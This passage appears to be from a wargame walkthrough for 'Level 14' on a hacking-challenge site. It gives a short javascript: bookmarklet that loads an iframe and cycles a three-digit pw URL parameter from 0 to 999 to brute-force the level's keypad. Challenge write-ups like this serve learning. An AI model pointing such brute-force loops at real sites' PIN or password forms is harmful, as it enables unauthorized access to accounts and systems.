 #### Level 14

We see a keypad and when we type 3 numbers we get sent to ?page=levels&level=14&pw=156 this means there are a combination from 0-999, lets make a bruteforce!

```javascript
javascript:document.body.innerHTML += "<iframe id='if' height='400' width='400'></iframe>"; var i=0; setInterval(function(){var frame = document.getElementById('if'); frame.contentWindow.document.location = 'http://bytewar.net?page=levels&level=14&pw='+(i++)},100);void(0);
```

Write it in the address bar in your browser and you will succeed :)